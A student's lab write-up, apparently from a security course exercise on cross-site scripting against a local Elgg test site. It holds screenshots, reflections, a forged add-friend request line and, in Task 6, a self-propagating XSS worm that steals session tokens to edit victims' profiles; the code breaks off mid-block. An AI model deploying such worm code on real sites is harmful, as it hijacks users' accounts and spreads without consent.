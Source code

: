 
<div align="center">Lab 02 | CSCI 476
  
Zoe Norden | s68k193() 
</div>


## Task 1

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task1.1.png)

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task1.png)

I wasn't sure if I need tod o the more advanced thing with the separate file or anything. Given that it didn't say so in the instructions, I will assume I did not need to do so. So far this seems very similar to the SQL injection thing that we did on the last lab.

Is it possible to do a more advanced version of this using the larger script file thing and then insert a video or something? I wouldn't be able to get it to work with the existing field because I'd run into a character limit on my space, but I should be able to run something if I tossed it into a file to run. I am curious if I could get the actual video to pop up or if it'd just be the link to the video, which wouldn't be as funny. 

## Task 2

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task2.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task2.1.png)

I still don't quite understand the dangers behind cookies. 

## Task 3

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task3.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task3.1.png)

I can kind of see why knowing this info would be dangerous though. 


## Task 4

### Task 4.1

Our first image is pre-friend Boby and the second image is after we've added Boby as a friend. 
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.2.png)

Now here's a code block of the code that I inserted. There is also a screenshot of the full code snippet below that textblock of code. From what I understand, this code looks at the url and then goes to add friend withthe id number of 57. 

`var sendurl="http://www.xsslabelgg.com/action/friends/add" + "?friend=57" + token + ts;`

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.1.1.png)


### Task 4.2

For task 4.2 I was unable to successfully re-add Boby as a friend. To try and accomplish this, I removed the code from the "edit HTML" section and just directly pasted it in Samy's bio. I also removed Boby as a friend before I used this attack to verify things. I was unable to readd Boby as a friend if I just pasted it in the normal About me field. As you can see from the screenshots, I am still friendless. 

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.2.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task4.2.1.png)

## Task 5


### Task 5.1

Once again, we will be targetting poor Boby. As you can see from the screenshot below, Boby has a very poor MySpace-esque profile page. Let's see if we can't spice things up. You know, once he visits Samy's profile.

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.png)
![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.1.png)

Okay, so I had to create the variable desc which is our description variable. This is because I honestly couldn't tell if the `var name, guid, ts, token` was actually doing anything so I created the `var desc` which would directly edit the profile of poor Boby. Full code snippet is below. 

![image](https://github.com/znorden17/csci-476-594-spring2021-private/blob/main/lab05/screenshots/task5.1.2.png)


### Task 5.2

You need this line of code because if you didn't have it, you would attack yourself. So this is basically saying that if the user id is not Samy's, then we continue with the attack, but if it is, we do not do anything. This was probably the hardest part for me to figure out for some reason because I couldn't figure out what Samy's GUID was for the life of me. 

## Task 6
<script id=worm>
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";  // (1)
    var jsCode = document.getElementById("worm").innerHTML;           // (2)
    var tailTag = "</" + "script>";                                   // (3)

    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);  // (4)

    alert(jsCode); // this can be used for testing; replace with actual XSS worm payload.

    // TODO: Get the name, guid, timestamp, and token.
    var name="&name="+elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    // TODO: Set the content of the description field and access level.
    var des = "&description=Samy is my hero"
    var acsl = "&accesslevel[description]=2"

    // TODO: Set the URL, and create and send Ajax request to modify profile

    // Construct your url.
    var sendurl= "http://www.xsslabelgg.com/action/profile/edit";     //FILL IN

    // Construct the content of your request.
    var content= token + ts + name + des + guid;     //FILL IN

    // Send the HTTP POST request
    var samyGuid=59;    //FILL IN
    if (elgg.session.user.guid!=samyGuid)       // (1)
    {
        // Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST",sendurl,true);
        Ajax.setRequestHeader("Host","www.xsslabelgg.com");
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);


